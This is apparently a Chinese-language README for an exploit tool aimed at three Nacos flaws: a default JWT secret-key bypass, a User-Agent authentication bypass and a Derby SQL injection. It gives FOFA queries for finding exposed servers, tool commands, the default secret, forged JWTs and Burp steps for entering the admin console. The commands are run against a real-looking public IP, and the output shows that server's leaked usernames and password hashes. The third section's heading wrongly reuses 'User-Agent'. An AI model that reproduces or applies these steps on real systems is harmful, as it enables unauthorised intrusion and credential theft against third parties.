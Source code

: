 ## 1、token.secret.key 默认配置漏洞
### **漏洞描述**
漏洞原理为开源服务管理平台 Nacos 在默认配置下未对 token.secret.key 进行修改，导致远程攻击者可以绕过密钥认证进入后台造成系统受控等后果。
### **漏洞信息**
```
漏洞类型：身份认证绕过
漏洞等级：高危
漏洞编号：QVD-2023-6271
受影响版本：0.1.0 <= Nacos <= 2.2.0
```
### **网络测绘**
```
app="NACOS"

测试用例(源自FOFA搜索结果): http://47.100.218.188:9000
```
### **漏洞检测**
```shell
python nacos.py -m 3 -u http://47.100.218.188:9000

# 输出结果
http://47.100.218.188:9000 存在secret.key默认配置漏洞：{'accessToken': 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6NDA4MTkwNzk5M30.BdQSxmoftt9zePaqO1-B9QFSi1tsiiQ2mzKUjnZfQJk', 'tokenTtl': 18000, 'globalAdmin': True, 'username': 'nacos'}
```
### **漏洞复现**
在nacos中token.secret.key值是固定死(<=2.2.0)的，位置在conf下的application.properties中:
```
nacos.core.auth.plugin.nacos.token.secret.key=SecretKey012345678901234567890123456789012345678901234567890123456789
```
利用该默认key可进行jwt构造，从而直接进入后台，构造方法：
```json
{
  "sub": "nacos",
  "exp": 1715069648
}
```
1715069648这个值是unix时间戳，要比系统当前的时间更晚，比如当前的时间是2025年05月07日16:14:08，在这里面的时间戳时间就改为05月08日.
![图片1.png](https://cdn.nlark.com/yuque/0/2024/png/25524100/1715238738175-2e9f32a3-4b9b-4b04-8cb6-1b09d79f6403.png#averageHue=%23faf8f7&clientId=u17f8cfe7-f0c6-4&from=drop&id=u60d42032&originHeight=130&originWidth=632&originalType=binary&ratio=1&rotation=0&showTitle=false&size=10144&status=done&style=none&taskId=u306d3c71-6e8b-4f23-9e3e-c0d86e0190b&title=)
注意勾选jwt.io中的secret base64 encoded，并填写上述默认secret.key
![图片1.png](https://cdn.nlark.com/yuque/0/2024/png/25524100/1715238716836-19f1d661-482b-425c-8d40-88e868e528e7.png#averageHue=%23fcfcfc&clientId=u17f8cfe7-f0c6-4&from=drop&id=uefe375bd&originHeight=625&originWidth=1197&originalType=binary&ratio=1&rotation=0&showTitle=false&size=41962&status=done&style=none&taskId=u4ee95c69-c41c-4902-8123-93dca11b690&title=)
复制加密的jwt
```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6MTcxNTE1NjA0OH0.RS63Tvlj9ZCWvXzo-gJVvT0y3RfJ2rKql89d9V4jTBI
```
在登录界面填写账号密码（均为nacos，其他随机账号密码也可），利用burp对登录请求进行抓包，并发送到重发器
![图片1.png](https://cdn.nlark.com/yuque/0/2024/png/25524100/1715239018684-f9e44972-59eb-4af5-8266-bd3594005c75.png#averageHue=%23dbcbae&clientId=u17f8cfe7-f0c6-4&from=drop&height=931&id=ufd42ecfd&originHeight=931&originWidth=1689&originalType=binary&ratio=1&rotation=0&showTitle=false&size=6301022&status=done&style=none&taskId=ufb516b6c-1693-4894-a310-0a157e502b5&title=&width=1689)
![图片1.png](https://cdn.nlark.com/yuque/0/2024/png/25524100/1715239030691-ca23dfaf-a5a8-48fc-bdfc-4dc62bd3fcb7.png#averageHue=%23fafaf9&clientId=u17f8cfe7-f0c6-4&from=drop&height=944&id=u0264c8f2&originHeight=944&originWidth=1489&originalType=binary&ratio=1&rotation=0&showTitle=false&size=85752&status=done&style=none&taskId=u49fea553-09a2-4bd9-b09e-6216cd2d699&title=&width=1489)
添加Authorization值(上述加密的jwt), 然后点击发送
```
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6MTcxNTE1NjA0OH0.RS63Tvlj9ZCWvXzo-gJVvT0y3RfJ2rKql89d9V4jTBI
```
可以看到返回200，说明登录成功，利用这个可以绕过身份认证，进入后台。
![图片1.png](https://cdn.nlark.com/yuque/0/2024/png/25524100/1715239115886-a24dc5cd-d222-4602-ae5a-fae1898d7748.png#averageHue=%23f9f8f8&clientId=u17f8cfe7-f0c6-4&from=drop&height=944&id=ua4b2b647&originHeight=944&originWidth=1489&originalType=binary&ratio=1&rotation=0&showTitle=false&size=137379&status=done&style=none&taskId=ufe84d829-c73b-4829-9466-7e9ea6b97f2&title=&width=1489)
使用Burp拦截网站请求，并拦截返回包。
![图片1.png](https://cdn.nlark.com/yuque/0/2024/png/25524100/1715239150569-fdffc5a8-e09f-4d72-9aa2-f72f7df9d4e1.png#averageHue=%23f8f8f7&clientId=u17f8cfe7-f0c6-4&from=drop&id=u7ff3eab3&originHeight=941&originWidth=1481&originalType=binary&ratio=1&rotation=0&showTitle=false&size=5584519&status=done&style=none&taskId=ubbffa0fb-aea5-4ab4-a811-b3bb1289ad9&title=)
将登录请求返回包进行替换并放包（及替换成上述添加Authorization后的response，直接复制即可）。
![图片1.png](https://cdn.nlark.com/yuque/0/2024/png/25524100/1715239173552-7971a249-8c83-4c8b-b72f-b1a824b966a2.png#averageHue=%23faf9f9&clientId=u17f8cfe7-f0c6-4&from=drop&height=944&id=uc748505f&originHeight=944&originWidth=1489&originalType=binary&ratio=1&rotation=0&showTitle=false&size=96985&status=done&style=none&taskId=u1e72899b-d0d7-4de0-91f3-a4385c86f1e&title=&width=1489)
此时成功绕过身份认证并进入后台。
![图片1.png](https://cdn.nlark.com/yuque/0/2024/png/25524100/1715239205150-e76d2a19-132f-4feb-b02d-40aeb8dd07a3.png#averageHue=%23f9f6f6&clientId=u17f8cfe7-f0c6-4&from=drop&id=ue987fc7b&originHeight=948&originWidth=2304&originalType=binary&ratio=1&rotation=0&showTitle=false&size=304824&status=done&style=none&taskId=u17620007-ead6-469a-bdfc-60a58c80171&title=)

### **参考连接**
> 1、[https://www.cnblogs.com/spmonkey/p/17504263.html](https://www.cnblogs.com/spmonkey/p/17504263.html)
> 2、[https://github.com/Threekiii/Awesome-POC](https://github.com/Threekiii/Awesome-POC)

## 2、User-Agent 权限绕过漏洞
### **漏洞描述**
该洞发生在nacos在进行认证授权操作时，会判断请求的user-agent是否为”Nacos-Server”，如果是的话则不进行任何认证。
### **漏洞信息**
```
漏洞类型：使用欺骗进行的认证绕过
漏洞等级：高危
漏洞编号：CVE-2021-29441
受影响版本：Nacos <= 2.0.0-ALPHA.1
```
### **网络测绘**
```
app="NACOS"

测试用例(源自FOFA搜索结果): http://47.100.218.188:9000
```
### **漏洞检测**
```shell
python nacos.py -m 2 -u http://47.100.218.188:9000

# 输出结果
http://47.100.218.188:9000 存在User-Agent 权限绕过漏洞：{'totalCount': 13, 'pageNumber': 1, 'pagesAvailable': 2, 'pageItems': [{'username': 'nacos', 'password': '$2a$10$cad4yF1jvtwNsRuFkf.FQ.ocCRFAfhq8z4cb3qMSFX4If7QtqClg2'}, {'username': 'testuser2csSCAq5bTDybceTq74N6eZKkBn', 'password': '$2a$10$pl8/J67ZBSidKUfAhYPDreHpkKQo5RnKhvt/IOPW8Gr1GAFInDWOu'}, {'username': 'yanbuguohengyang226', 'password': '$2a$10$R80Sh.4gDlfwkCXMvBwi..EaOpTz/16P/kGQu9EKeT.UeYisPXbuy'}, {'username': 'hacker', 'password': '$2a$10$nbbU3.OObwRN2yesMbCepeIWOMBtQSzZNpaLeQjCl/eHtthnRdyOC'}, {'username': 'csavavdsf@d', 'password': '$2a$10$5xzELXZf9NNcUgHE4ouaNOpCh0Bea1frJGW8IU6yWlnOSGU/uTjTm'}, {'username': 'A123456', 'password': '$2a$10$UifTdakUQ2faVlfgav839OuzA26j9N3z5lXkG7CRJc0z.78diLOBe'}, {'username': 'nac0s', 'password': '$2a$10$CyFERvR.d7Ek5lL6UQcf/OPy2MPTgi4C6xLG/AzM0hWKZ2wEVR0y.'}, {'username': 'admin', 'password': '$2a$10$FTzEXoM8THygFG.EkjU9BudX6dwhNTZqBJtm6ov26dmvefUGr.r6a'}, {'username': 'nacos_ad', 'password': '$2a$10$goeZ0ZREt1GOLYu8quLyPui8vP6nrnG1sf.3z9Knhe5Fgpk8Jkbye'}, {'username': 'nezha', 'password': '$2a$10$AxIZ.CopXHOHfYHDEA4tieuLAJkRaTmX5Om.97EvtGglkohDyRvmm'}]}
```
### **参考连接**
> 1、[https://www.cnblogs.com/xyz315/p/15853268.html](https://www.cnblogs.com/xyz315/p/15853268.html)
> 2、[https://developer.aliyun.com/article/1221131](https://developer.aliyun.com/article/1221131)

## 3、User-Agent 权限绕过漏洞
### **漏洞描述**

Derby SQL注入漏洞是一个重要的安全问题，它涉及到Nacos中使用的Derby数据库存在的SQL注入风险。
### **漏洞信息**
```
漏洞类型：SQL注入
漏洞等级：高危
漏洞编号：CNVD-2020-67618
```
### **网络测绘**
```
app="NACOS"

测试用例(源自FOFA搜索结果): http://47.100.218.188:9000
```
### **漏洞检测**
```shell
python nacos.py -m 1 -u http://47.100.218.188:9000

# 输出结果
http://47.100.218.188:9000 存在Derby SQL 注入漏洞：{'code': 200, 'message': None, 'data': [{'USERNAME': 'nacos', 'PASSWORD': '$2a$10$cad4yF1jvtwNsRuFkf.FQ.ocCRFAfhq8z4cb3qMSFX4If7QtqClg2', 'ENABLED': True}, {'USERNAME': 'testuser2csSCAq5bTDybceTq74N6eZKkBn', 'PASSWORD': '$2a$10$pl8/J67ZBSidKUfAhYPDreHpkKQo5RnKhvt/IOPW8Gr1GAFInDWOu', 'ENABLED': True}, {'USERNAME': 'yanbuguohengyang226', 'PASSWORD': '$2a$10$R80Sh.4gDlfwkCXMvBwi..EaOpTz/16P/kGQu9EKeT.UeYisPXbuy', 'ENABLED': True}, {'USERNAME': 'hacker', 'PASSWORD': '$2a$10$nbbU3.OObwRN2yesMbCepeIWOMBtQSzZNpaLeQjCl/eHtthnRdyOC', 'ENABLED': True}, {'USERNAME': 'csavavdsf@d', 'PASSWORD': '$2a$10$5xzELXZf9NNcUgHE4ouaNOpCh0Bea1frJGW8IU6yWlnOSGU/uTjTm', 'ENABLED': True}, {'USERNAME': 'A123456', 'PASSWORD': '$2a$10$UifTdakUQ2faVlfgav839OuzA26j9N3z5lXkG7CRJc0z.78diLOBe', 'ENABLED': True}, {'USERNAME': 'nac0s', 'PASSWORD': '$2a$10$CyFERvR.d7Ek5lL6UQcf/OPy2MPTgi4C6xLG/AzM0hWKZ2wEVR0y.', 'ENABLED': True}, {'USERNAME': 'admin', 'PASSWORD': '$2a$10$FTzEXoM8THygFG.EkjU9BudX6dwhNTZqBJtm6ov26dmvefUGr.r6a', 'ENABLED': True}, {'USERNAME': 'nacos_ad', 'PASSWORD': '$2a$10$goeZ0ZREt1GOLYu8quLyPui8vP6nrnG1sf.3z9Knhe5Fgpk8Jkbye', 'ENABLED': True}, {'USERNAME': 'nezha', 'PASSWORD': '$2a$10$AxIZ.CopXHOHfYHDEA4tieuLAJkRaTmX5Om.97EvtGglkohDyRvmm', 'ENABLED': True}, {'USERNAME': 'test', 'PASSWORD': '$2a$10$Qb5j/mOoWxVy1xmJArVavOhcUdCtI3tGFSuSjZkJSCDcGBqWcEJCW', 'ENABLED': True}, {'USERNAME': 'ttestt', 'PASSWORD': '$2a$10$IjPVjBDyhdI8s1JqB1gHnepzcs8pDUMQrDzqT36IcxPj/NBHvpJTC', 'ENABLED': True}, {'USERNAME': 'adminsss', 'PASSWORD': '$2a$10$/5Pcwz5qWr9Lglp.vfbeKOWCc.uFWxWAMRiR/dvptt.fFiebLSA8.', 'ENABLED': True}]}
```
### **参考连接**
> 1、[https://h0ny.github.io/posts/Nacos-%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8%E6%80%BB%E7%BB%93/#nacos-derby-sql-%E6%B3%A8%E5%85%A5](https://h0ny.github.io/posts/Nacos-%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8%E6%80%BB%E7%BB%93/#nacos-derby-sql-%E6%B3%A8%E5%85%A5)

